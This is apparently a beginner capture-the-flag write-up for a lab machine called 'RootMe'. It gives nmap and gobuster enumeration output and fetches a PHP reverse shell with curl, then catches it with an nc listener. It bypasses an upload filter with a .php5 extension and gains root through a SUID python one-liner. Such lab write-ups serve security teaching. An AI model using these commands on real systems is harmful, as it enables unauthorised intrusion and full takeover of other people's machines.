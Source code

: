 # RootMe

## A ctf for beginners, can you root me?

### Questions

* Scan the machine, how many ports are open?
* What version of Apache are running?
* What is the hidden directory?
* user.txt?
* Search for files with SUID permission, which file is weird?
* root.txt?

## Enumeration

### Nmap

> nmap -sSVC -A -O -vv

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-12 22:13 BST
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
Initiating Ping Scan at 22:13
Scanning 10.10.119.253 [4 ports]
Completed Ping Scan at 22:13, 0.77s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:13
Completed Parallel DNS resolution of 1 host. at 22:13, 0.01s elapsed
Initiating SYN Stealth Scan at 22:13
Scanning 10.10.119.253 [1000 ports]
Discovered open port 22/tcp on 10.10.119.253
Discovered open port 80/tcp on 10.10.119.253
Completed SYN Stealth Scan at 22:13, 5.50s elapsed (1000 total ports)
Initiating Service scan at 22:13
Scanning 2 services on 10.10.119.253
Completed Service scan at 22:13, 7.54s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 10.10.119.253
Retrying OS detection (try #2) against 10.10.119.253
Retrying OS detection (try #3) against 10.10.119.253
Retrying OS detection (try #4) against 10.10.119.253
Retrying OS detection (try #5) against 10.10.119.253
Initiating Traceroute at 22:14
Completed Traceroute at 22:14, 3.10s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 22:14
Completed Parallel DNS resolution of 2 hosts. at 22:14, 0.01s elapsed
NSE: Script scanning 10.10.119.253.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:14
NSE Timing: About 99.63% done; ETC: 22:14 (0:00:00 remaining)
Completed NSE at 22:15, 48.03s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:15
Completed NSE at 22:15, 2.96s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:15
Completed NSE at 22:15, 0.00s elapsed
Nmap scan report for 10.10.119.253
Host is up, received reset ttl 61 (0.74s latency).
Scanned at 2020-10-12 22:13:40 BST for 97s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9irIQxn1jiKNjwLFTFBitstKOcP7gYt7HQsk6kyRQJjlkhHYuIaLTtt1adsWWUhAlMGl+97TsNK93DijTFrjzz4iv1Zwpt2hhSPQG0GibavCBf5GVPb6TitSskqpgGmFAcvyEFv6fLBS7jUzbG50PDgXHPNIn2WUoa2tLPSr23Di3QO9miVT3+TqdvMiphYaz0RUAD/QMLdXipATI5DydoXhtymG7Nb11sVmgZ00DPK+XJ7WB++ndNdzLW9525v4wzkr1vsfUo9rTMo6D6ZeUF8MngQQx5u4pA230IIXMXoRMaWoUgCB6GENFUhzNrUfryL02/EMt5pgfj8G7ojx5
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERAcu0+Tsp5KwMXdhMWEbPcF5JrZzhDTVERXqFstm7WA/5+6JiNmLNSPrqTuMb2ZpJvtL9MPhhCEDu6KZ7q6rI=
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: HackIT - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/12%OT=22%CT=1%CU=43844%PV=Y%DS=4%DC=T%G=Y%TM=5F84C7
OS:65%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST
OS:11NW6%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M505NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Uptime guess: 31.728 days (since Fri Sep 11 04:46:46 2020)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT       ADDRESS
1   470.81 ms 10.4.0.1
2   ... 3
4   736.20 ms 10.10.119.253

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:15
Completed NSE at 22:15, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:15
Completed NSE at 22:15, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:15
Completed NSE at 22:15, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.29 seconds
           Raw packets sent: 1130 (53.746KB) | Rcvd: 1082 (46.782KB)
```

#### Q: Scan the machine, how many ports are open?
> A: 2

#### Q: What version of Apache are running?
> A: 2.4.29

#### Q: What service is running on port 22?
> A: ssh

### finding Directories/files 

(i use gobuster (dirbuster was not working))

>gobuster dir -u http://10.10.63.255:80/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t 33 -x html,php,txt

(the ip is different because I continued that writeup the other day)

![image](https://user-images.githubusercontent.com/53917092/95799616-9c977c80-0ccb-11eb-8c12-1261b632a434.png)

#### Q: What is the hidden directory?
> A: /panel/

checking the directory /panel/, we have

![image](https://user-images.githubusercontent.com/53917092/95799962-ad94bd80-0ccc-11eb-82b6-bebb559e010c.png)

let's try upload a shell

shell: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

>curl https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -o revs.php

remember to set a port to listening

>nc -lvp PORT

![image](https://user-images.githubusercontent.com/53917092/95800457-c487df80-0ccd-11eb-951b-1fa61fd38181.png)

"PHP isn't permitted"

let's try bypassing this using the ".php5" extension

> mv revs.php revs.php5

![image](https://user-images.githubusercontent.com/53917092/95800910-fcdbed80-0cce-11eb-9775-7ede504b29aa.png)

it worked

to run click on "veja" ("see")

![image](https://user-images.githubusercontent.com/53917092/95801051-81c70700-0ccf-11eb-9179-d92c4d421c56.png)

it worked, we have shell

to get a tty

> python -c 'import pty;pty.spawn("/bin/bash")'

> Ctrl+Z 

> stty raw -echo

> fg

> export TERM=xterm

![image](https://user-images.githubusercontent.com/53917092/95801836-087ce380-0cd2-11eb-9d6a-dfcb6863ae6c.png)

### user.txt

#### finding

> find / -type f -name user.txt 2>/dev/null

![image](https://user-images.githubusercontent.com/53917092/95803052-770f7080-0cd5-11eb-8a1d-a00ca7024fa4.png)

#### getting

> cat /var/www/user.txt

![image](https://user-images.githubusercontent.com/53917092/95803222-f2712200-0cd5-11eb-9ae6-a8a542164dec.png)

### root.txt / Privilege Escalation

To look for the files with SUID permission we can use the command:

> find / -type f -user root -perm -4000 2>/dev/null

![image](https://user-images.githubusercontent.com/53917092/95803488-9ce94500-0cd6-11eb-9d5c-e8822a26ddb7.png)

#### Exploring python set uid capabilities

> python -c "import os;os.setuid(0);os.system('/bin/bash')"

![image](https://user-images.githubusercontent.com/53917092/95803893-a7f0a500-0cd7-11eb-9a16-463b7cbc950a.png)

#### getting

![image](https://user-images.githubusercontent.com/53917092/95803990-e1c1ab80-0cd7-11eb-9541-b517c1383b5d.png)

that's it, thanks for reading